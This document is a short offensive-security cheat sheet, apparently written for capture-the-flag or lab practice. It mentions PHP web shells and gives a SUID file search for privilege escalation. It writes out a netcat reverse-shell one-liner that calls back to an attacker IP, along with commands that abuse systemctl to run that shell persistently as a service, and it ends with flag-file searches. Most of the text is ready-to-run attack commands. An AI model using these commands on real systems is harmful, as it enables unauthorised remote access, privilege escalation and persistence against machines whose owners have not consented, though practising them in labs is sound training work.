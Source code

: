 # Offensive Security Notes for Educational Purpose Only

# .phtml for Shell
# .phtml files are commonly used as PHP web shells for remote code execution. These files can be uploaded to vulnerable servers for exploitation.

# Finding SUID Files (Privileged File Search)
# SUID files can be a vector for privilege escalation. This command searches for all files owned by root with the SUID bit set.
find / -user root -perm -4000 -exec ls -ldb {} \;

# Reverse Shell Setup

# Creating a Reverse Shell
# This command creates a reverse shell that connects back to the attacker's IP (10.8.1.72) on port 1337. It uses netcat to establish the connection.
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.1.72 1337 >/tmp/f" > /tmp/shell.sh

# Creating a Service to Execute the Reverse Shell
# This sequence creates a systemd service that executes the reverse shell automatically.
TF=$(mktemp).service
echo '[Service] Type=oneshot ExecStart=/bin/sh -c "bash /tmp/shell.sh" [Install] WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF

# Finding Flags
# Searching for potential flag files across the system.
dir flag* /s /p
search -f "flag*"
